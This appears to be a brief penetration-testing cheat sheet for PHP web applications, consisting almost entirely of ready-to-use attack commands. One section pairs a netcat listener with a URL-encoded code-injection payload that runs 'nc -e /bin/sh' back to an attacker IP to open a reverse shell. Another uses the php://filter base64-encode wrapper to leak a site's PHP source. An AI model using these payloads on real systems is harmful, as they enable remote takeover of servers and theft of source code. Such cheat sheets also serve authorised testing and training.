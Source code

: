 # PHP Penteration Testing Techniques

### Obtaining Shell through Browser Bar
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```
---
### Using php:// in url to return base64 encoded page source
```
# https://victimsite.com/somefile.php?pagename=whatever
https://victimsite.com/somefile.php?pagename=php://filter/convert.base64-encode/resource=somefile.php
# or
https://victimsite.com/somefile.php?pagename=php://filter/convert.base64-encode/resource=somefile

# Copy the returned base64 code and decode it
echo -n thebase64codethatwassuppliedbythephpfilterconvertbase64encode | base64 -d > somefile.php
```
